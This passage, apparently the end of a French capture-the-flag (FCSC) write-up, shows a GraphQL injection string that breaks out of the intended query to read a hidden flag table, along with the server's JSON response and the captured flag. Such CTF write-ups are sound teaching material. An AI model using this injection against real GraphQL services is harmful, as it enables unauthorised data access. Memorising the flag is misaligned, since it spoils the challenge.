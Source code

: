 Ce qui nous donne du côté de l'injection:

```graphql
"}}]}) { nodes { firstname }} allFlagNotTheSameTableNames { nodes { flagNotTheSameFieldName }}}#
```

```graphql
{
  "allFlagNotTheSameTableNames": {
    "nodes": [
      {
        "flagNotTheSameFieldName": "FCSC{70c48061ea21935f748b11188518b3322fcd8285b47059fa99df37f27430b071}"
      }
    ]
  }
}
```

Boom, terminé.

Flag: FCSC{70c48061ea21935f748b11188518b3322fcd8285b47059fa99df37f27430b071}